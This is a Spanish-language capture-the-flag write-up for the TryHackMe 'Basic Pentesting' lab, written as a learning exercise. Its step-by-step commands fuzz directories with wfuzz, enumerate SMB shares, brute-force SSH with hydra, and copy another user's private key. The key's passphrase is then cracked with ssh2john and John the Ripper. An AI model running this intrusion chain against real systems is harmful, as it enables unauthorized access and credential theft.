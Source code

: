 # Basic Pentesting Room

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/THM/BASIC_PENTESTING/images/1.png)

Enumeracion de puertos y servicios:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/THM/BASIC_PENTESTING/images/2.png)

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/THM/BASIC_PENTESTING/images/3.png)

##   ¿Cuál es el nombre del directorio oculto en el servidor web (ingrese el nombre sin /)?

El puerto 8080 es un apache Tomcat y no creo que el directorio oculto se encuentre ahi. Vamos a realizar fuzzing con el el puerto 80:

```bash
wfuzz -c -t 100 --hw=24 --hc=404 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://10.10.187.52/FUZZ
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/THM/BASIC_PENTESTING/images/4.png)

el directorio oculto es **development**.

## Cual es el nombre de usuario?

Vemos que tiene  el puerto 139 y 445 de **netbios**, mediante enum4linux vamos a enumerar lo mas que podemos de estos servicios:

```bash
enum4linux -a 10.10.75.140
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/THM/BASIC_PENTESTING/images/5.png)

el nombre de usuario es **jan**
  
## ¿Cual es la contraseña?

vamos a aplicar fuerza bruta con hydra para el servicio SSH que lo tenia abierto:

```bash
hydra -L names.txt -P pass.txt 10.10.75.140 -t 4 -v ssh 
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/THM/BASIC_PENTESTING/images/6.png)

la conrtaseña es **armando**.

##   ¿Qué servicio utiliza para acceder al servidor (responda en abreviatura en mayúsculas)?

Lo hicimos mediante **SSH**.

  
## ¿Cuál es el nombre del otro usuario que encontró (todo en minúsculas)?

```bash
ssh jan@10.10.75.140
<armando>
```

Lo enumeramos con **enum4linux** o sino una vez dentro lo podemos ver en el archivo **/etc/passwd**:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/THM/BASIC_PENTESTING/images/7.png)

la respuesta es **kay**.

## ¿Cuál es la contraseña final que obtienes?

Vemos que en su carpeta local del usuario **kay** hay una carpta oclta llamada **.ssh**, ahi normalmente se encuentran las llaves publicas y privadas que el usuario genera y un archivo llamado **authorized_keys** que contiene las llaves publicas que son admitidas para una autenticacion mediante llave **id_rsa**.

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/THM/BASIC_PENTESTING/images/8.png)

vamos a copiarnos la llave privada a nuesro equipo Kali, le damos el permiso 600 e intentamos autenticarnos con esa llave y el usuario kay:

```bash
chmod 600 id_rsa

ssh -i id_rsa kay@10.10.75.140

```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/THM/BASIC_PENTESTING/images/9.png)

vemos que nos pide una conrtaseña pero no la sabemos, Asi que vamos a intentar crackearla. Usaremos **ssh2john**, esta herramienta es parte de la suite John The Reaper. Este es un script que básicamente transforma la clave privada de [RSA / DSA / EC / OPENSSH (claves privadas SSH)] al formato john para descifrarla más tarde usando JtR

![ssh2john github](https://github.com/openwall/john/blob/bleeding-jumbo/run/ssh2john.py)

![tutorial ssh2john](https://vk9-sec.com/ssh2john-how-to/)

extraemos el hash:

```bash
python2 ssh2john.py id_rsa > id_rsa.hash
```

ahora intentamos crackearlo con John The Ripper:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
```

vemos la contraseña:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/THM/BASIC_PENTESTING/images/10.png)

ahora volvemos a conectarnos con la llave privada ya que sabemos la contraeña:

```bash
ssh -i id_rsa kay@10.10.75.140

<contraseña hallada>
```

estamos dentro y podemos ver la contraseña final:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/THM/BASIC_PENTESTING/images/11.png)


